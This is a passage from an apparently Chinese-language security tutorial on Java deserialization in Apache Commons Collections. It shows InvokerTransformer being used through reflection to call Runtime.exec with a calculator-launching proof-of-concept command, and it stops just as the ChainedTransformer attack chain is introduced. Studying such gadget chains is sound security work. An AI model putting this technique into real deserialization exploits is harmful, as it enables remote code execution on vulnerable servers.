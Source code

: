 ```java
                return method.invoke(input, this.iArgs);
            } catch (NoSuchMethodException var4) {
                //异常处理
        }
    }
}
```

通过`InvokerTransformer`类实现命令执行
```java
package com.serialize;

import org.apache.commons.collections.functors.InvokerTransformer;

/**
 * Created by dotast on 2022/9/1 10:34
 */
public class TransformerTest {
    public static void main(String[] args){
        String cmd = "open -a Calculator.app";
        InvokerTransformer invokerTransformer = new InvokerTransformer(
                "exec",new Class[]{String.class}, new Object[]{cmd}
        );
        invokerTransformer.transform(Runtime.getRuntime());
    }
}
```

![image-20220901105358610](images/image-20220901105358610.png)

在现实场景下很难通过`InvokerTransformer.transform`传入`Runtime.getRuntime()`对象完成命令执行，因此我们需要学习下一个接口实现类`ChainedTransformer`来构造我们的攻击链。
### ChainedTransformer
